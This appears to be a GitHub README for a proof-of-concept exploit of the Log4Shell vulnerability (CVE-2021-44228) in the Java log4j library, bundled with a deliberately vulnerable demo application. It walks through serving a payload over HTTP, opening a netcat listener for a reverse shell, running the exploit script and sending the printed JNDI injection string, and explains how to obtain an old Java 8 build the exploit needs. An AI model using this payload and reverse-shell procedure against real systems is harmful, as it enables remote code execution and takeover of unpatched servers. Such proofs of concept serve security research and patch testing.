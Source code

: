 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

<br>

Proof-of-concept (POC)
----------------------



As a POC we have created a python file that automates the process.

* Start an http server.<br>
**Note:** This must be run in the same directory as the rest of the repository.
```py
sudo python3 -m http.server 80
```
* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
python3 poc.py
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)


[+] Enter IP for LDAPRefServer & Shell: localhost
[+] Enter listener port for LDAPRefServer: 80
[+] Set listener port for shell: 9001
[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

<br>


Our vulnerable application
--------------------------

Running the application currently is easiest done in the payed version of intelj, but we plan on adding a Dockerfile in the future.

If you would like to further develop the project you can use intelj IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting an old enough version of java.
--------------------------------------

The exploit only works with very old versions of java 8. We are unsure of exactly which java versions work and which don't so we have chosen to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

<br>

A video showing the exploitation process
----------------------------------------
https://user-images.githubusercontent.com/46561460/145657039-5f844e8c-e90c-4dd1-9f32-02b27068c6a2.mp4

